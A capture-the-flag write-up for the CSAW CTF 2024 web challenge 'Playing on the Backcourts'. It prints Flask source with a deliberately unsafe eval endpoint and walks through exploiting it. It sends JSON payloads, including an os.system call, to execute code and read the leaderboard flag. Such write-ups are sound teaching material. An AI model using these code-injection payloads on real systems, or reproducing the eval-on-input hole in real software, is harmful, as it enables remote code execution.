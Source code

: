 ```yaml
---
name: Playing on the Backcourts (2024)
event: CSAW CTF 2024
category: Web
description: Writeup for Playing on the Backcourts (Web) - CSAW CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Playing on the Backcourts

## Description

> yadayada playing tennis like pong yadayada someone's cheating yadayada at least the leaderboard is safe!

## Source Code

{% code overflow="wrap" %}

```python
from flask import Flask, render_template, request, session, jsonify, send_file
from hashlib import sha256
from os import path as path

app = Flask(__name__)
app.secret_key = 'safe'

leaderboard_path = 'leaderboard.txt'
safetytime = 'csawctf{i_look_different_in_prod}'

@app.route('/')
def index() -> str:
    cookie = request.cookies.get('session')

    if cookie:
        token = cookie.encode('utf-8')
        tokenHash = sha256(token).hexdigest()

        if tokenHash == '25971dadcb50db2303d6a68de14ae4f2d7eb8449ef9b3818bd3fafd052735f3b':
            try:
                with open(leaderboard_path, 'r') as file:
                    lbdata = file.read()

            except FileNotFoundError:
                lbdata = 'Leaderboard file not found'

            except Exception as e:
                lbdata = f'Error: {str(e)}'

            return '<br>'.join(lbdata.split('\n'))

    open('logs.txt', mode='w').close()
    return render_template("index.html")

@app.route('/report')
def report() -> str:
    return render_template("report.html")

@app.route('/clear_logs', methods=['POST'])
def clear_logs() -> Flask.response_class:
    try:
        open('logs.txt', 'w').close()

        return jsonify(status='success')

    except Exception as e:
        return jsonify(status='error', reason=str(e))

@app.route('/submit_logs', methods=['POST'])
def submit_logs() -> Flask.response_class:
    try:
        logs = request.json

        with open('logs.txt', 'a') as logFile:
            for log in logs:
                logFile.write(f"{log['player']} pressed {log['key']}\n")

        return jsonify(status='success')

    except Exception as e:
        return jsonify(status='error', reason=str(e))

@app.route('/get_logs', methods=['GET'])
def get_logs() -> Flask.response_class:
    try:
        if path.exists('logs.txt'):
            return send_file('logs.txt', as_attachment=False)
        else:
            return jsonify(status='error', reason='Log file not found'), 404

    except Exception as e:
        return jsonify(status='error', reason=str(e))

@app.route('/get_moves', methods=['POST'])
def eval_moves() -> Flask.response_class:
    try:
        data = request.json
        reported_player = data['playerName']
        moves = ''
        if path.exists('logs.txt'):
            with open('logs.txt', 'r') as file:
                lines = file.readlines()

                for line in lines:
                    if line.strip():
                        player, key = line.split(' pressed ')
                        if player.strip() == reported_player:
                            moves += key.strip()

        return jsonify(status='success', result=moves)

    except Exception as e:
        return jsonify(status='error', reason=str(e))

@app.route('/get_eval', methods=['POST'])
def get_eval() -> Flask.response_class:
    try:
        data = request.json
        expr = data['expr']

        return jsonify(status='success', result=deep_eval(expr))

    except Exception as e:
        return jsonify(status='error', reason=str(e))

def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr

    return deep_eval(nexpr)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

{% endcode %}

## Solution

The website features a two-player ping pong game. Aside from the player movements, there's some log storing/reading functionality, a `/report` endpoint, and a `get_eval` endpoint.

The last one sounds very interesting! It performs a `deep_eval` on our expression (recursive), so first, we can try an easy win: print the `safetytime` variable.

{% code overflow="wrap" %}

```json
{ "expr": "safetytime" }
```

{% endcode %}

We get a flag!

{% code overflow="wrap" %}

```json
{ "result": "csawctf{7h1s_1S_n07_7h3_FL49_y0u_4R3_l00K1n9_f0R}", "status": "success" }
```

{% endcode %}

Clearly, not the real flag though. We can try system commands, e.g.

{% code overflow="wrap" %}

```json
{ "expr": "__import__('os').system('ls')" }
```

{% endcode %}

They seem to succeed but there's no output.

{% code overflow="wrap" %}

```json
{ "result": 0, "status": "success" }
```

{% endcode %}

I tried `curl` but didn't get a hit.

Next, I was thinking the flag must be in `leaderboard.txt`, which we would get with the correct hash.

{% code overflow="wrap" %}

```python
token = cookie.encode('utf-8')
tokenHash = sha256(token).hexdigest()

if tokenHash == '25971dadcb50db2303d6a68de14ae4f2d7eb8449ef9b3818bd3fafd052735f3b':
	try:
		with open(leaderboard_path, 'r') as file:
			lbdata = file.read()
```

{% endcode %}

I tried to crack it online but no luck.

Finally, I used the `eval` to copy `logs.txt` to `leaderboard.txt` and then called `/get_logs`.

{% code overflow="wrap" %}

```
1.kainzow
2.wozniak
3.beastmaster64
4.m4y4
5.smallfoot
6.BBLDrizzy
7.¯\_(ツ)_/¯
8.dvorak
9.csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}
10.funGuyQiu
11.bidenJoetum pressed k
tum pressed k
tum pressed k
tum pressed k
hum pressed w
hum pressed w
hum pressed w
hum pressed w
hum pressed w
hum pressed s
hum pressed s
```

{% endcode %}

Flag: `csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}`
